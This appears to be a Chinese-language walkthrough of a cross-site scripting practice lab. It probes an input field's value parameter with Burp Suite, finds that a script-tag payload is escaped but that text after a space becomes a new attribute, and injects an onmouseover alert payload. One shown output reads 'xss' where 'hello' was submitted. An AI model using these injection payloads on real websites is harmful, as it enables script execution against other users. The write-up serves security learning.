 ```
<input type="text" name="p1" size="60" value="">
```

提交 hello

```
<input type="text" name="p1" size="50" value="hello">
```

> 参数为 input 中的 value

开启 burpsuite 拦截，提交 hello

```
p1=hello
```

> 只有一个可控参数

**查找页面的回显**

没有回显

**判断能否执行 javascript 代码**

关闭拦截，提交代码	`">`

```
"><script>alert(document.domain);<script>
```

查看源码

```
<input type="text" name="p1" size="50" value="&quot;><script>alert(document.domain);<script>">
```

> `"` 被转义，无法在此处注入

提交代码 `hello test`

> 发现只显示了 hello

查看源码

```
<input type="text" name="p1" size="50" value="hello" test="">
```

> 发现逻辑漏洞，空格后面的代码最为参数添加

提交代码 `hello test=666`

```
<input type="text" name="p1" size="50" value="xss" test="666">
```

根据漏洞构造事件

```
hello onmouseover=alert(document.domain)
```

> 成功注入
